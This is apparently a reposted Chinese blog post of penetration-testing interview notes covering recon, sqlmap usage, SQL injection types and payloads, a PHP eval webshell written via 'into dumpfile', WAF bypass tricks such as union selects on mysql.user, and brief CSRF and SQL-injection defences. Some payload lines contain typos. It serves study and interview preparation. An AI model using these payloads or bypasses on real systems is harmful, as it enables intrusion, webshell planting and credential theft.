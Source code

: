 ```yaml
---
layout: post
title: 给你一个网站你是如何来渗透测试的?
tags: 基础知识 渗透 渗透思路
categories: 基础知识
published: true
---
```


**1)信息收集，**
1，获取域名的whois信息,获取注册者邮箱姓名电话等。
2，查询服务器旁站以及子域名站点，因为主站一般比较难，所以先看看旁站有没有通用性的cms或者其他漏洞。
3，查看服务器操作系统版本，web中间件，看看是否存在已知的漏洞，比如IIS，APACHE,NGINX的解析漏洞
4，查看IP，进行IP地址端口扫描，对响应的端口进行漏洞探测，比如 rsync,心脏出血，mysql,ftp,ssh弱口令等。
5，扫描网站目录结构，看看是否可以遍历目录，或者敏感文件泄漏，比如php探针
6，google hack 进一步探测网站的信息，后台，敏感文件

**2）漏洞扫描**
开始检测漏洞，如XSS,XSRF,sql注入，代码执行，命令执行，越权访问，目录读取，任意文件读取，下载，文件包含，
远程命令执行，弱口令，上传，编辑器漏洞，暴力破解等
3）漏洞利用
利用以上的方式拿到webshell，或者其他权限
4）权限提升
提权服务器，比如windows下mysql的udf提权，serv-u提权，windows低版本的漏洞，如iis6,pr,巴西烤肉，
linux藏牛漏洞，linux内核版本漏洞提权，linux下的mysql system提权以及oracle低权限提权
5) 日志清理
6）总结报告及修复方案


**sqlmap，怎么对一个注入点注入？**
1）如果是get型号，直接，sqlmap -u "诸如点网址".
2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数"
3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用*号替换，放到文件里，然后sqlmap -r "文件地址"


**nmap，扫描的几种方式**


**sql注入的几种类型？**
1）报错注入
2）bool型注入
3）延时注入
4）宽字节注入


**报错注入的函数有哪些？** 
1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】----------------
2）通过floor报错 向下取整
3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
4）.geometrycollection()select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
5）.multipoint()select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
6）.polygon()select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
7）.multipolygon()select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
8）.linestring()select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
9）.multilinestring()select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
10）.exp()select * from test where id=1 and exp(~(select * from(select user())a));
延时注入如何来判断？
if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)


**盲注和延时注入的共同点？**
都是一个字符一个字符的判断


**如何拿一个网站的webshell？**
上传，后台编辑模板，sql注入写文件，命令执行，代码执行，
一些已经爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传插件包含脚本文件zip压缩包等


**sql注入写文件都有哪些函数？**
select '一句话' into outfile '路径'
select '一句话' into dumpfile '路径'
select '<?php eval($_POST[1]) ?>' into dumpfile 'd:\\wwwroot\[http://baidu.com](http://link.zhihu.com/?target=http%3A//baidu.com)\nvhack.php';


**如何防止CSRF?**
1,验证referer
2，验证token
详细：[浅谈cnode社区如何防止csrf攻击 - CNode技术社区](http://link.zhihu.com/?target=http%3A//cnodejs.org/topic/5533dd6e9138f09b629674fd)


**owasp 漏洞都有哪些？**
1、SQL注入防护方法：
2、失效的身份认证和会话管理
3、跨站脚本攻击XSS
4、直接引用不安全的对象
5、安全配置错误
6、敏感信息泄露
7、缺少功能级的访问控制
8、跨站请求伪造CSRF
9、使用含有已知漏洞的组件
10、未验证的重定向和转发


**SQL注入防护方法？**
1、使用安全的API
2、对输入的特殊字符进行Escape转义处理
3、使用白名单来规范化输入验证方法
4、对客户端输入进行控制，不允许输入SQL注入相关的特殊字符
5、服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除。


**代码执行，文件读取，命令执行的函数都有哪些？**
1，代码执行：eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function
2，文件读取：file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
3，命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
img标签除了onerror属性外，还有其他获取管理员路径的办法吗？
src指定一个远程的脚本文件，获取referer
img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径。
1,远程服务器修改apache配置文件，配置.jpg文件以php方式来解析
AddType application/x-httpd-php .jpg

```text
<img src=http://xss.tv/1.jpg> 
```

会以php方式来解析


**代码审计**
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function


文件读取：file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等


命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()



**绕过walf**


1、关键字可以用%（只限IIS系列）。比如select，可以sel%e%ct。原理：网络层waf对SEL%E%CT进行url解码后变成SEL%E%CT，匹配select失败，而进入asp.dll对SEL%E%CT进行url解码却变成select。IIS下的asp.dll文件在对asp文件后参数串进行url解码时，会直接过滤掉09-0d（09是tab键,0d是回车）、20（空格）、%(后两个字符有一个不是十六进制)字符。xss也是同理。


2、通杀的，内联注释。安全狗不拦截，但是安全宝、加速乐、D盾等，看到/*!/就Fack了，所以只限于安全狗。比如：/*!select*/


3、编码。这个方法对waf很有效果，因为一般waf会解码，但是我们利用这个特点，进行两次编码，他解了第一次但不会解第二次，就bypass了。腾讯waf、百度waf等等都可以这样bypass的。


4，绕过策略一：伪造搜索引擎


早些版本的安全狗是有这个漏洞的，就是把User-Agent修改为搜索引擎


5，360webscan脚本存在这个问题，就是判断是否为admin dede install等目录，如果是则不做拦截


\1. GET /pen/news.php?id=1 union select user,password from mysql.user


\1. GET /pen/news.php/admin?id=1 union select user,password from mysql.user


\1. GET /pen/admin/..\news.php?id=1 union select user,password from mysql.user


6，multipart请求绕过，在POST请求中添加一个上传文件，绕过了绝大多数WAF。


7，参数绕过，复制参数，id=1&id=1


用一些特殊字符代替空格，比如在mysql中%0a是换行，可以代替空格，这个方法也可以部分绕过最新版本的安全狗，在sqlserver中可以用/**/代替空格


8,内联注释，


文件上传，复制文件包一份再加一份


在 form-data;后面增加一定的字符
宽字符注入

宽字符：解 决方法：就是在初始化连接和字符集之后，使用SET character_set_client=binary来设定客户端的字符集是二进制的。修改Windows下的MySQL配置文件一般是 my.ini，Linux下的MySQL配置文件一般是my.cnf，比如：mysql_query("SETcharacter_set_client=binary");。character_set_client指定的是SQL语句的编码，如果设置为 binary，MySQL就以二进制来执行，这样宽字节编码问题就没有用武之地了。



————————————————  
原文链接：https://blog.csdn.net/sinat_27042305/article/details/60877680?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-5.nonecase&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-5.nonecase